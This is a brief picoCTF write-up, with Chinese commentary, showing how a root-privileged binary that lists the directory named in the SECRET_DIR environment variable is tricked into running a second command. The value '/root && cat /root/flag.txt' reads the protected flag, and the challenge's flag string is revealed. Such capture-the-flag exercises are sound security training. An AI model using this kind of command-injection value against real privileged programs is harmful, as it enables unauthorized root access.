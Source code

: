 
```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@pico-chall$ vim bin 
-bash: vim: command not found
ctf-player@pico-chall$ ./bin && cat /root/flag.txt
Listing the content of /root as root: 
flag.txt
cat: /root/flag.txt: Permission denied
ctf-player@pico-chall$ export SECRET_DIR="/root && cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root && cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}
```

執行後發現需要設定環境變數 `SECRET_DIR`，給定資料夾後發現用 `bin` 執行時有 root 權限，故想辦法把惡意字串塞進去，達成 command injection

export $SECRET_DIR=/root
export SECRET_DIR="/root && cat /root/flag.txt"
